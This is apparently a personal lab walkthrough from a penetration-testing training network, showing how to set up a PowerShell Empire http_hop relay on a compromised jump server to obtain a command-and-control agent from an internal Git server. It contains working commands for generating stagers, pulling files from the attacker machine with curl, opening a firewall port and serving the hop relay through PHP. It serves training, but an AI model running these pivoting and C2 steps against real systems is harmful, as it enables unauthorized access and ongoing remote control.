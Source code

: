 Time to put this all into practice!

You should already have a `http_hop` listener started in either Empire or Starkiller from the last task. If you don't, take this opportunity to start one before continuing.

With the listener started there are two things we must do before we can get an agent back from the Git Server:-

- We must generate an appropriate stager for the target
- We must put the `http_hop` files into position on .200, and start a webserver to serve the files on the port we selected during the listener creation. This server must be able to execute PHP, so a PHP Debug server is ideal.


---

Let's start with generating a stager. For this we will use the `multi/launcher` stager. We already covered how to create stagers back in task 26, so you should be able to do this relatively unguided. The only option needing to be set here is the "Listener" option, which needs set to the name of the `http_hop` listener we created in the previous task:

## Empire client

Start Empire Client:

```
$ powershell-empire client
```


![[Git Server-20250103140519820.webp]]

## Starkiller

![[Git Server-20250103140607340.webp]]

If using the Empire CLI, you will be presented with a payload to copy and paste into the target's command line:

![[Git Server-20250103140856420.webp]]

If using Starkiller you can copy the payload to your clipboard by clicking on the copy button of the Actions menu for the stager in the main Stagers menu:

![[Git Server-20250103140929490.webp]]

Whichever method you chose, save the provided command somewhere and _do not_ execute it yet. We will need it once we have set up the hop files on the jumpserver.


---
## Jumpserver set up

Now let's get that jumpserver set up!

1. First of all, in the /tmp directory of the compromised webserver, create and enter a directory called `hop-USERNAME`. e.g.:

	![[Git Server-20250103141203892.webp]]

2. Transfer the contents from the `/tmp/http_hop` (or whatever you called it) directory across to this directory on the target server. A good way to do this is by zipping up the contents of the directory (`cd /tmp/http_hop && zip -r hop.zip *`), then transferring the zipfile across using one of the methods previously shown. For example, doing this with a Python HTTP server :
	![[Git Server-20250103141930263.webp]]

3. We can then unzip the zipfile on the webserver (i.e. `unzip hop.zip`):

	 ![[Git Server-20250103142317960.webp]]

> [!Note]
The output of `ls` must match up with the screenshot -- i.e. there should be a `news.php` file in your current directory, with `admin/` and_ `login/` as subdirectories

## Open the port in the firewall

Create a Firewall rule to allow connections through.
		root@prod-serv ~# `firewall-cmd --zone=public --add-port 47000/tcp`

## Serving the files

We now need to actually serve the files on the port we chose when generating the http_hop listener (task 28). Fortunately we already know that this server has PHP installed as it serves as the backend to the main website. This means that we can use the PHP development webserver to serve our files! The syntax for this is as follows:  
`php -S 0.0.0.0:PORT &>/dev/null &`  

e.g:

![[Git Server-20250103142653235.webp]]

As shown in the screenshot, the webserver is now listening in the background on the chosen port 47000.

> [!Note]
> Remember to open up the port in the firewall if you haven't already!

This is a handy trick for when we need to serve PHP files, as our standard Python HTTP webserver is not capable of interpreting the PHP language and so cannot execute the scripts.

We now have everything we need to get this show on the road!


---

# Your job



![[Command & Control Empire Diagram.svg]]


| <center>Actions</center>                                                 | <center>Machine</center> | <center>Commands</center>                                                                                             |
| ------------------------------------------------------------------------ | ------------------------ | --------------------------------------------------------------------------------------------------------------------- |
| Start Empire Server                                                      | Attacking Machine        | `powershell-empire server`                                                                                            |
| Start Empire CLI                                                         | Attacking Machine        | `powershell-empire client`                                                                                            |
| Setup HTTP Listener                                                      | Empire CLI               | `uselistener http`                                                                                                    |
| Create a listener                                                        | Empire CLI               | [[Empire - Listeners]]                                                                                                |
| Setup Stager                                                             | Empire CLI               | `usestager multi_bash`<br>`set Listener CLIHTTP`<br>`execute`                                                         |
| Execute stager on target                                                 | Jump box .200            | `echo "import sys,base64,warnings...`                                                                                 |
| Open firewall port                                                       | Jump box .200            | `firewall-cmd --zone=public --add-port 47000/tcp`                                                                     |
| Creating hop jump server                                                 | Empire CLI               | `uselistener http_hop`<br>`set Host 10.200.X.200` <br>`set Port 47000`<br>`set RedirectListener CLIHTTP`<br>`execute` |
| Zip and transfer files `/tmp/http_hop` to jump box target                | Attacking Machine        | `cd /tmp/http_hop && zip -r hop.zip`<br>`sudo python3 -m http.server 80`                                              |
| Download on target                                                       | Jump box .200            | `curl 10.50.X.X/hop.zip -o hop.zip unzip hop.zip`                                                                     |
| Create http_hop stager                                                   | Empire CLI               | `usestager multi_launcher`<br>`set Listener http_hop` `execute`                                                       |
| Setup a PHP Server to host http_hop files                                | Jump box .200            | `php -S 0.0.0.0:47000`                                                                                                |
| Connect to `git-server` on `.150` and execute `usestager/multi/launcher` |                          |                                                                                                                       |
After completing the given steps, we have an agent from the Git Server in Starkiller.

![[Git Server-20250114152251549.webp]]

**Next step:** [[Empire - Modules]]

